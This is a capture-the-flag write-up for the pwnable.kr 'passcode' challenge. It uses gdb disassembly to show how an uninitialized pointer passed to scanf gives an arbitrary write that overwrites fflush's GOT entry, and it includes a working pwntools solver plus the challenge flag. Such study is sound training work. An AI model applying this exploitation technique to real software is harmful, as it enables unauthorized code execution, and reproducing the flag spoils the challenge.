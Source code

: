 Well, first I tracked the warning from gcc compiler.
```
$ gcc passcode.c 
passcode.c: In function ‘login’:
passcode.c:9:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
    9 |         scanf("%d", passcode1);
      |                ~^   ~~~~~~~~~
      |                 |   |
      |                 |   int
      |                 int *
passcode.c:14:17: warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’ [-Wformat=]
   14 |         scanf("%d", passcode2);
      |                ~^   ~~~~~~~~~
      |                 |   |
      |                 |   int
      |                 int *
```
It used passcode1, not &passcode1. Hmm..

I cheated the writeups on this problem (since I am pwn-noob!) and the keywords are GOT overwrite and partial RELRO.

```
$ checksec passcode
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE
```
According to [#](http://www.lazenca.net/display/TEC/04.RELRO), partial RELRO permits write to got.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048665 <+0>:     push   %ebp      
   0x08048666 <+1>:     mov    %esp,%ebp 
=> 0x08048668 <+3>:     and    $0xfffffff0,%esp
   0x0804866b <+6>:     sub    $0x10,%esp
   0x0804866e <+9>:     movl   $0x80487f0,(%esp)
   0x08048675 <+16>:    call   0x8048450 <puts@plt>
   0x0804867a <+21>:    call   0x8048609 <welcome>
   0x0804867f <+26>:    call   0x8048564 <login>
   0x08048684 <+31>:    movl   $0x8048818,(%esp)
   0x0804868b <+38>:    call   0x8048450 <puts@plt>
   0x08048690 <+43>:    mov    $0x0,%eax
   0x08048695 <+48>:    leave
   0x08048696 <+49>:    ret
End of assembler dump.
```
In main, after running calling welcome, login is called, so welcome function and login function will run on same stack address.
```
(gdb) disas welcome
Dump of assembler code for function welcome:
   0x08048609 <+0>:     push   %ebp
   0x0804860a <+1>:     mov    %esp,%ebp
   0x0804860c <+3>:     sub    $0x88,%esp
   0x08048612 <+9>:     mov    %gs:0x14,%eax
   0x08048618 <+15>:    mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:    xor    %eax,%eax
   0x0804861d <+20>:    mov    $0x80487cb,%eax
   0x08048622 <+25>:    mov    %eax,(%esp)
   0x08048625 <+28>:    call   0x8048420 <printf@plt>
   0x0804862a <+33>:    mov    $0x80487dd,%eax
   0x0804862f <+38>:    lea    -0x70(%ebp),%edx
   0x08048632 <+41>:    mov    %edx,0x4(%esp)
   0x08048636 <+45>:    mov    %eax,(%esp)
   0x08048639 <+48>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:    mov    $0x80487e3,%eax
   0x08048643 <+58>:    lea    -0x70(%ebp),%edx
   0x08048646 <+61>:    mov    %edx,0x4(%esp)
   0x0804864a <+65>:    mov    %eax,(%esp)
   0x0804864d <+68>:    call   0x8048420 <printf@plt>
...
```
`welcome` calls scanf function which have two arguments. The second argument is `0x4(%esp)`, which is `%edx`, equal to `-0x70(%ebp)`.

```
(gdb) disas login
Dump of assembler code for function login:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     sub    $0x28,%esp
   0x0804856a <+6>:     mov    $0x8048770,%eax
   0x0804856f <+11>:    mov    %eax,(%esp)
   0x08048572 <+14>:    call   0x8048420 <printf@plt>
   0x08048577 <+19>:    mov    $0x8048783,%eax
   0x0804857c <+24>:    mov    -0x10(%ebp),%edx
   0x0804857f <+27>:    mov    %edx,0x4(%esp)
   0x08048583 <+31>:    mov    %eax,(%esp)
   0x08048586 <+34>:    call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:    mov    0x804a02c,%eax
   0x08048590 <+44>:    mov    %eax,(%esp)
   0x08048593 <+47>:    call   0x8048430 <fflush@plt>
...
```

`login` calls scanf and its second argument is the value located in memory address `-0x10(%ebp)`, which was controllable by `welcome` scanf function.

## Arbitrary Memory 4-byte Write

If we want to write `0xcafebabe` on address `0xdeafbeef`, do the followings:

1. For the first welcome function input, put first 0x60bytes any value, and next put 4 bytes to be `0xdeafbeef` in Little Endian.
2. For the second login function input, type an integer value `int(0xcafebabe, 16)`

## GOT overwrite

After calling scanf, flush function is called. Using arbitrary write, we can change got of fflush to the address of `system("/bin/cat flag")`.

```
(gdb) disass 0x8048430
Dump of assembler code for function fflush@plt:
   0x08048430 <+0>:     jmp    *0x804a004      
   0x08048436 <+6>:     push   $0x8
   0x0804843b <+11>:    jmp    0x8048410       
End of assembler dump.
```

got address of fflush is `0x804a004`.

```
   0x080485ce <+106>:   cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:   jne    0x80485f1 <login+141>
   0x080485d7 <+115>:   movl   $0x80487a5,(%esp)
   0x080485de <+122>:   call   0x8048450 <puts@plt>
   0x080485e3 <+127>:   movl   $0x80487af,(%esp)
   0x080485ea <+134>:   call   0x8048460 <system@plt>        
   0x080485ef <+139>:   leave
   0x080485f0 <+140>:   ret
```
`system("/bin/cat flag")` is at `0x080485e3`. 

## Solver Code
```
from pwn import *

fflush_got_address = 0x804a004
new_got_value = 0x080485e3

sh = ssh('passcode', 'pwnable.kr', password='guest', port=2222)
p = sh.process(['./passcode'])
p.sendline(b'A'*0x60 + p32(fflush_got_address))
p.sendline(str(new_got_value))
p.interactive()
```

flag is `Now I can safely trust you that you have credential :)`.